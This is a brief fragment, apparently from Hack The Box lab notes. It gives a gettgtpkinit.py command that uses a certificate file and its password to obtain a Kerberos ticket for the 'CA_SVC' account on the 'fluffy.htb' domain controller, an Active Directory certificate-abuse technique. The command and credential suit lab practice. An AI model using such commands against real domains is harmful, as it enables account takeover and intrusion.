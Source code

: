 
Use it when you want to get tgt ticket using your certificate.
```sh
gettgtpkinit.py -cert-pfx PQ92rPNQ.pfx \
  -pfx-pass 'GwqE6vfXAYuxCbYGpZG6' \
  -dc-ip 10.10.11.69 \
  'fluffy.htb/CA_SVC' \
  ./CA_SVC.ccache #output TGT ccache name, you can change it.


```